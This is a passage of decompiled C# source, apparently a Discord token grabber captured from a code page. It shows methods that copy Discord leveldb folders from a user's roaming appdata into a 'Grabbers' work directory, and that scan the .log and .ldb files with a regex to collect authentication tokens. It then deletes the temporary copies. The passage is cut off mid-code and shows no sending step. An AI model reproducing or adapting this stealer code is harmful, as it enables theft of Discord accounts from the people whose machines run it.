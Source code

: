 ```csharp
				Discord.CopyLevelDb();
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex);
			}
		}

		// Token: 0x06000009 RID: 9 RVA: 0x00002634 File Offset: 0x00000834
		private static void CopyLevelDb()
		{
			string text = Variables.workdir + "\\Grabbers\\Discord";
			foreach (string text2 in Discord.DiscordDirectories)
			{
				string directoryName = Path.GetDirectoryName(Path.Combine(Variables.roamingappdata, text2));
				string text3 = Path.Combine(text, new DirectoryInfo(directoryName).Name);
				bool flag = !Directory.Exists(directoryName);
				if (flag)
				{
					break;
				}
				try
				{
					Filemanager.CopyDirectory(directoryName, text3);
				}
				catch
				{
				}
			}
		}

		// Token: 0x0600000A RID: 10 RVA: 0x000026CC File Offset: 0x000008CC
		public static string[] GetTokens(Regex TokenRegex)
		{
			List<string> list = new List<string>();
			try
			{
				foreach (string text in Discord.DiscordDirectories)
				{
					string text2 = Path.Combine(Variables.roamingappdata, text);
					string text3 = Path.Combine(Path.GetTempPath(), new DirectoryInfo(text2).Name);
					bool flag = !Directory.Exists(text2);
					if (!flag)
					{
						Filemanager.CopyDirectory(text2, text3);
						foreach (string text4 in Directory.GetFiles(text3))
						{
							bool flag2 = !text4.EndsWith(".log") && !text4.EndsWith(".ldb");
							if (!flag2)
							{
								string text5 = File.ReadAllText(text4);
								Match match = TokenRegex.Match(text5);
								bool success = match.Success;
								if (success)
								{
									list.Add(match.Value ?? "");
								}
							}
						}
						Filemanager.RecursiveDelete(text3);
					}
				}
```